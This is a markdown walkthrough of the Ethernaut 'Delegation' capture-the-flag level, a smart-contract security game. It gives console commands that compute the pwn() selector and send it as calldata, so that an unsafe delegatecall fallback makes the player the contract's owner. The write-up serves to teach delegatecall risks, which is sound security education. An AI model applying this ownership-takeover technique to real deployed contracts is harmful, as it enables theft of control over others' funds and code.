 # Delegation

## Objective

Exploit the misuse of `delegatecall` in the Delegation contract to become the owner and complete the level.

---

## Getting Started

1. Go to [ethernaut.openzeppelin.com](https://ethernaut.openzeppelin.com/)
2. Select the **"Delegation"** level
3. Click **“Get new instance”** and approve the transaction in MetaMask
4. The instance is now deployed and available as the `contract` object in the browser console
5. Save the instance address:

    ```js
    contract.address
    ```

---

## Walkthrough

### Step 1: Obtain the Function Selector for `pwn()`

```js
web3.utils.keccak256("pwn()").slice(0,10)
```

**Explanation:**
This computes the function selector for the `pwn()` function, which is required to trigger the fallback function via a low-level call.

---

### Step 2: Call the Fallback Function with the Selector

```js
await web3.eth.sendTransaction({
     from: player,
     to: contract.address,
     data: "0xdd365b8b"
});
```

**Explanation:**
This sends a transaction to the contract with the `pwn()` selector as calldata. The fallback function uses `delegatecall` to execute `pwn()` in the context of the Delegation contract, making you the owner.

---

### Step 3: Verify Ownership

```js
await contract.owner()
```

**Explanation:**
Checks if your address is now the owner, confirming the exploit was successful.

---

## What You Learn

This level teaches the following:

* How `delegatecall` executes code in the context of the calling contract
* The risks of forwarding calldata with `delegatecall` and fallback functions
* How storage layout affects contract security and can lead to vulnerabilities
* Defensive patterns to avoid storage collisions and unsafe delegatecalls

---

## Resources Used

* [Ethernaut Game](https://ethernaut.openzeppelin.com/)
* [Solidity Docs – delegatecall](https://docs.soliditylang.org/en/latest/introduction-to-smart-contracts.html#delegatecall-callcode-and-libraries)
* [Blog: How to Hack Solidity Contracts with delegatecall](https://shubhamm.me/blog/ethernaut_challenges_delegation)

---
